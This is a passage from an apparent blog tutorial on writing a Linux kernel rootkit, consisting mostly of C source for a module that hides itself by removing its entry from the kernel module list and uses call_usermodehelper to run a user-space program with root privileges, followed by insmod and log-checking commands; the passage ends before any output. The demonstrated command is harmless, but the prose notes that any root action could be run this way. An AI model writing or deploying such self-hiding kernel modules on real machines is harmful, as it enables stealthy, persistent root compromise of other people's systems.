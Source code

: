 /*
  Simple user space runner
*/
static int simple_usp_runner(void)
{
  char *argv[] = { "/usr/bin/logger", "root!", NULL };
  static char *envp[] = {
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

  return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}

static int __init rootkit_init(void)
{
  struct module *mod = THIS_MODULE;
  printk(KERN_INFO "rootkit_mod loading.\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");

  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);

  msleep(1000);
  simple_usp_runner();

  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);

{% endcodeblock %}

Ok, now we are using the **call_usermodehelper()** function to write to system loger. (What exactly we are doing is run logger with parameter that contain array of chars). The key point is that this process that we run in user space is with root privileges so basically we can do everything that we can do from the root console.

Let's try and then run our example:

{% codeblock lang:bash %}
root@a20-olimex:~$ insmod rootkitmod_time_usp.ko
{% endcodeblock %}

We run our second rootkit let's have a look at the system logs to check if our module runs correctly.

{% codeblock lang:bash %}
root@a20-olimex:~$ tail -f /var/log/messages
